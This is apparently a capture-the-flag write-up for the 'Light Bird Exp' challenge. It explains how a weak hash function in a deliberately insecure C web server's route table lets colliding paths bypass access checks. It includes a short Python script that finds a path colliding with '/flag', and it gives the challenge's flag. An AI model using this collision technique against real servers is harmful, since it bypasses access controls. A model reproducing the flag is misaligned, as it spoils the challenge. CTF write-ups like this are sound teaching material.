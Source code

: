 # Light Bird Exp

## Description
This challenge is based on a C web server created by the author, it is a simple and evidently insecure version of route management.

## Solution
In this case a hash table is used to match the routes to the resources, however in the event of a collision the value is moved, therefore with a bad hash function like the one present in the program and for an inefficient width the risk of collision is very high , by exploiting a minor error in the control function it is possible to direct the search function to any resource, evading the controls.

```python

def hash( key:str, mod:int ) -> int:
    hash_value = 0
    for c in key:
        hash_value = (hash_value * 31 + ord(c)) % 4294967296
    return hash_value % mod


pointer = hash( '/flag', 100 )

for i in range( 1000 ):
    if pointer + 1 == hash( f'/flag{i}', 100 ):
        print(f'/flag{i}')
        break

```
## Flag
`CodeVinciCTF{Th15_1s_mY_n3w_r3411y_f4s7_4nd_3ff1c13N7_c_S3rv3r}`

## Author
`sDibuon`


